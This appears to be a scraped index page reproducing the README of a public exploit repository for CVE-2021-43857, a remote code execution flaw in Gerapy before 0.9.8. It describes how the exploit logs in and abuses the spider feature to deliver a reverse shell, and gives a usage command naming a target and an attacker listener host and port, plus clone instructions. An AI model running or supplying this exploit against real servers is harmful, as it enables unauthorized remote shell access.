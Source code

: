 # CVE-2021-43857

Gerapy prior to version 0.9.8 is vulnerable to remote code execution. This issue is patched in version 0.9.8.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/LongWayHomie](https://github.com/LongWayHomie) |
| Url      | [https://github.com/LongWayHomie/CVE-2021-43857](https://github.com/LongWayHomie/CVE-2021-43857)                                               |
| Stars    | 2                                                          |
| License  | The Unlicense                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-43857
Gerapy prior to version 0.9.8 is vulnerable to remote code execution. This issue is patched in version 0.9.8.
CVE-2021-43857 is a vulnerability marked as Critical priority (CVSS 9.8) leading to remote code execution.</br>
This vulnerability works on all versions prior to 0.9.8.</br>
Tested only on 0.9.6. Needs correct credentials. </br>
Exploit works by logging in to application, then getting the list of created projects (it will fail if there's none), then use the project setting to run the vulnerable _spider_ mechanism by sending reverse shell payload.</br>
</br>

Usage example:
`python3 cve-2021-43857.py -t 172.17.0.2 -p 8000 -L 172.17.0.1 -P 4444`

![Screen](img.PNG)





## Get the content

```
git clone https://github.com/LongWayHomie/CVE-2021-43857
cd CVE-2021-43857
```

{% embed url="https://github.com/LongWayHomie/CVE-2021-43857" %}

<figure><img src="https://avatars.githubusercontent.com/u/63229183?v=4" alt=""><figcaption><p>LongWayHomie</p></figcaption></figure>
